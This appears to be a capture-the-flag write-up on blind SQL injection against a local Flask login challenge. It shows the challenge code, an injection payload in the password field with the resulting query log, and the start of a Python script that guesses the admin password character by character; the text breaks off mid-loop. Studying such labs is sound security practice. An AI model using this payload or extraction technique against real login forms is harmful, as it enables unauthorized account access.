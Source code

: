 ```python
@app.route("/", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=username>Password:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )
```

2. guess password query character by character

username:

```
admin
```

password:

```
1' OR password LIKE 'p%
```

The server redirected the client to the `/` page which indicate the login was succeed:

```
DEBUG: query="SELECT rowid, * FROM users WHERE username = 'admin' AND password = '1' OR password LIKE 'p%'"
127.0.0.1 - - [22/Jul/2025 08:22:03] "POST / HTTP/1.1" 302 -
```

3. write a python script to guess the password

key sql function: `substr`.

> the `LIKE` function does not work because it is not case-sensitive

```python
import requests
import string


# URL of the login endpoint
url = "http://challenge.localhost"

pw = ""

i = 1

# Form data payload
payload = {
    "username": "admin",
}

printable = string.printable

while True:
    for c in printable:
```